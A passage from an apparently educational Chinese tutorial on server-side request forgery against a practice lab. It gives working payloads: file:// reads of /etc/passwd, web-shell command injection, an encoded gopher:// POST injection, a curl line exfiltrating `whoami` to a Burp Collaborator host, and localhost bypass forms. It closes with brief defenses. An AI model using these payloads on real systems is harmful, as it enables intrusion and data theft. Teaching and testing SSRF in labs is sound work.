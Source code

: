 #### 文件协议：
```
file:///etc/passwd 
file:///etc/hosts 
```

#### GET方式的命令注入
```
http://172.72.23.22/phpinfo.php 
http://172.72.23.22/shell.php?cmd=cat%20/etc/hosts 
```

#### POST方式的命令注入
```
gopher://172.72.23.24:80/_%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%30%2e%31%30%2e%31%31%2e%31%30%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%33%33%0d%0a%4f%72%69%67%69%6e%3a%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%31%2e%31%30%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%4d%6f%7a%69%6c%6c%61%2f%35%2e%30%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%0d%0a%69%70%3d%6c%6f%63%61%6c%68%6f%73%74%25%33%42%63%61%74%2b%25%32%46%65%74%63%25%32%46%68%6f%73%74%73
```
####  盲试的SSRF
在无法回显的时候，可以使用带外攻击的方式，把数据带出来：
```
http://172.72.23.22/shell.php?cmd=curl%20`whoami`.hxi82q5lsv4jm2k5fg6oq6a8tzzpne.burpcollaborator.net 
```
上面是利用了BurpSuite提供的Burp Collaborator服务（类似的服务还有很多，搜“带外攻击”可见），如：
- http://www.dnslog.cn
- http://ceye.io
- http://pingb.in/
- https://webhook.site/
- https://github.com/projectdiscovery/interactsh（自己搭建）

#### 其他
Redis、MySQL、LDAP etc. 这个国光靶机环境的后台比较多，无法一一演示，大家课后自行尝试。


## 3. 防范和绕过
很容易想到，要规避SSRF漏洞，需要对请求提交过来的数据（主要就是构造的这个“URL”），做必要的限制。这种限制就五花八门了，也是看各家自己的具体实现。

- 只开放必要的客户端IP
- 只开放必要的服务
- 禁用不需要的URL协议(如“file://”, “gopher://”, “ldap://”)
- 涉及的服务一律需要认证 (如数据库、redis等)
- 监控不正常的对外的HTTP流量

当然很显然，针对各种防范方式，显然也会有各种绕过的方式。

### localhost的各种写法
http://[::]:80/
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network  解析为 127.0.0.2 ，也相当于是 localhost
http://[0:0:0:0:0:ffff:127.0.0.1]
